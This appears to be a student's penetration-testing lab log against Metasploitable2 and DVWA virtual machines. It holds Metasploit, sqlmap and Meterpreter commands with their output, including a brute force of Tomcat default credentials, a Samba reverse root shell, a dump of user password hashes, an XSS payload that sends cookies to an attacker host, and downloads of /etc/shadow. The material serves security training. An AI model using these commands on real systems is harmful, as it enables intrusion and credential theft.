






# Exploitation & Post-Exploitation Logs — Week 2 VAPT

> **Environment:** Kali Linux → Metasploitable2 (192.168.56.101) / DVWA (192.168.56.104)

---

## Exploitation Log

| Exploit ID | Description | Target IP | Port | Tool | Status | Payload |
|------------|-------------|-----------|------|------|--------|---------|
| 003 | Tomcat Manager Default Credentials | 192.168.56.104 | 8180 | Metasploit | ✅ Success | Java Shell |
| 004 | Samba Username Map Script RCE | 192.168.56.104 | 445 | Metasploit | ✅ Success | cmd/unix/interact |
| 005 | DVWA SQL Injection | 192.168.56.104 | 80 | sqlmap | ✅ Success | — |
| 006 | DVWA Reflected XSS | 192.168.56.104 | 80 | Burp Suite | ✅ Success | `<script>alert(1)</script>` |
| 007 | vsftpd 2.3.4 Backdoor | 192.168.56.104 | 21 | Metasploit | ✅ Success | cmd/unix/interact |

---

## Exploit 003 — Tomcat Manager Login (RCE)

### Module
```
exploit/multi/http/tomcat_mgr_login
```

### Steps
```bash
# Start Metasploit
msfconsole

# Use module
msf6 > use exploit/multi/http/tomcat_mgr_login
msf6 exploit(multi/http/tomcat_mgr_login) > set RHOSTS 192.168.56.104
msf6 exploit(multi/http/tomcat_mgr_login) > set RPORT 8180
msf6 exploit(multi/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
msf6 exploit(multi/http/tomcat_mgr_login) > run
```

### Terminal Output
```
[!] No active DB -- Credential data will not be saved!
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:QLogic66 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:password (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:Password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:changethis (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:r00t (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:toor (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:j2deployer (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:OvW*busr1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:kdsxc (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:owaspba (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:ADMIN (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: admin:xampp (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:QLogic66 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:password (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:Password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:changethis (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:r00t (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:toor (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:j2deployer (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:OvW*busr1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:kdsxc (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:owaspba (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:ADMIN (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: manager:xampp (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:QLogic66 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:password (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:Password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:changethis (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:r00t (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:toor (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:j2deployer (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:OvW*busr1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:kdsxc (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:owaspba (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:ADMIN (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role1:xampp (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:admin (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:manager (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:role1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:root (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:tomcat (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:s3cret (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:vagrant (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:QLogic66 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:password (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:Password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:changethis (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:r00t (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:toor (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:j2deployer (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:OvW*busr1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:kdsxc (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:owaspba (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:ADMIN (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: role:xampp (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:QLogic66 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:password (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:Password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:changethis (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:r00t (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:toor (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:password1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:j2deployer (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:OvW*busr1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:kdsxc (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:owaspba (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:ADMIN (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: root:xampp (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 192.168.56.104:8180 - LOGIN FAILED: tomcat:root (Incorrect)
[+] 192.168.56.104:8180 - Login Successful: tomcat:tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

> `[SCREENSHOT: Metasploit console showing Tomcat login success]`





### Validation
- Exploit-DB Reference: [EDB-31433](https://www.exploit-db.com/exploits/31433)
- CVE: N/A (default credentials issue, not a code vulnerability)

- ** Summary:** 
The Tomcat Manager interface on Metasploitable2 (port 8180) was successfully brute-forced using Metasploit's auxiliary/scanner/http/tomcat_mgr_login module, revealing default credentials (tomcat:tomcat). After 100+ failed attempts across multiple username/password combinations, the correct credentials were identified. This misconfiguration allows an attacker to deploy a malicious WAR file, achieving full Remote Code Execution on the target server.

---

## Exploit 004 — Samba Username Map Script RCE

### Module
```
exploit/multi/samba/usermap_script
```

### Steps
```bash
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.56.104
msf6 exploit(multi/samba/usermap_script) > set PAYLOAD cmd/unix/reverse
msf6 exploit(multi/samba/usermap_script) > run
```

### Expected Output
```
[*] Started reverse TCP double handler on 192.168.56.101:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo [random_string]
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Command shell session 1 opened (192.168.56.101:4444 → 192.168.56.104:1132)

id
uid=0(root) gid=0(root)
```


> `[SCREENSHOT: Metasploit Samba exploit giving root shell]`


- CVE: CVE-2007-2447
- CVSS: 10.0 — Critical
- **Impact:** Unauthenticated remote code execution as root. Full system compromise achieved.

---

## Exploit 005 — DVWA SQL Injection via sqlmap

### Steps
```bash
# Step 1: Open DVWA, login with admin:password
# Step 2: Navigate to SQL Injection page
# Step 3: Set security to "Low"
# Step 4: Get session cookie from browser DevTools

# Step 5: Enumerate databases
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=a4fe4d09d5d86b9e7b8ec0fac38fd89c; security=low" \
  --dbs \
  --batch

# Step 6: Enumerate tables in 'dvwa' database
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=aa4fe4d09d5d86b9e7b8ec0fac38fd89c; security=low" \
  -D dvwa --tables \
  --batch

# Step 7: Dump users table
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=a4fe4d09d5d86b9e7b8ec0fac38fd89c; security=low" \
  -D dvwa -T users --dump \
  --batch
```


> `[SCREENSHOT: sqlmap showing databases: dvwa, information_schema]`


> `[SCREENSHOT: sqlmap dumping users table with usernames and MD5 hashes]`


### Output — Users Table

+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| user_id | user    | avatar                                                | password                                    | last_name | first_name |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+
| 1       | admin   | http://172.16.123.129/dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      |
| 2       | gordonb | http://172.16.123.129/dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     |
| 3       | 1337    | http://172.16.123.129/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       |
| 4       | pablo   | http://172.16.123.129/dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      |
| 5       | smithy  | http://172.16.123.129/dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        |
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+------------+


> **Note:** MD5 hashes are weak — all crackable via online tools (CrackStation, hashcat).

---

## Exploit 006 — DVWA Reflected XSS

### Steps
```bash
# 1. Open Burp Suite and configure browser proxy → 127.0.0.1:8080
# 2. Navigate to: http://192.168.56.104/dvwa/vulnerabilities/xss_r/
# 3. In the Name field, enter:
<script>alert('CyArt-XSS-PoC')</script>
# 4. Click Submit
# 5. Observe alert popup in browser
```

**Advanced Payload (Cookie Stealing):**
```html
<script>document.location='http://192.168.56.101/steal?c='+document.cookie</script>
```


> `[SCREENSHOT: Burp Suite interceptor showing XSS payload in request]`




> `[SCREENSHOT: Browser alert popup confirming XSS execution]`




---

## Post-Exploitation Log

### Session Information

| Session ID | Type | Target IP | User | OS |
|------------|------|-----------|------|----|
| 1 | Meterpreter | 192.168.56.104 | root | Linux 2.6.24 |
| 2 | Shell | 192.168.56.104 | root | Linux 2.6.24 |


> `[SCREENSHOT: Metasploit sessions list showing active sessions]`



---

### Privilege Escalation

```bash
# In active Meterpreter session
meterpreter > getuid
Server username: root

meterpreter > sysinfo
Computer    : metasploitable
OS          : Linux 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008
Meterpreter : x86/linux

# Check sudo rights
meterpreter > shell
$ sudo -l
$ id
uid=0(root) gid=0(root) groups=0(root)
# Upgrade your session to meterpreter if it is shell
$ sessions -u 1(session id number)
$ sessions -i 2(meterpreter session id)
```

> `[SCREENSHOT: Meterpreter getuid showing root access]`




---

### Evidence Collection

```bash
# Download sensitive files via Meterpreter
meterpreter > download /etc/passwd /home/kali/Desktop/passwd
meterpreter > download /etc/shadow /home/kali/Desktop/shadow
meterpreter > download /etc/crontab /home/kali/Desktop/crontab

# Background session
meterpreter > background

# These files are downlaod as directory so need to manually copy the content to txt files

# Hash all collected files
sha256sum /home/kali/Desktop/passwd.txt
sha256sum /home/kali/Desktop/shadow.txt
sha256sum /home/kali/Desktop/crontab.txt
```


> `[SCREENSHOT: sha256sum output for all collected files]`


### Evidence Chain of Custody

| Item | Description | Collected By | Date | Hash Value (SHA256) |
|------|-------------|-------------|------|---------------------|
| passwd.txt | System user accounts | CyArt VAPT Analyst | 2025-08-18 | `af23ffe0bc5479a70a17e799fa699f9e593f2151b7e1ba597987523c7c733d42 ` |
| shadow.txt | Hashed passwords | CyArt VAPT Analyst | 2025-08-18 | `7f9f08e29620f196a409890a742738c61644f67a1f8e879db8317b674b16c762 ` |
| crontab.txt | Scheduled tasks | CyArt VAPT Analyst | 2025-08-18 | `fadf58b00cf3e22ffbc4bc293ba235d1e087e45e5f56270d0ae35d49c258e3a2 ` |
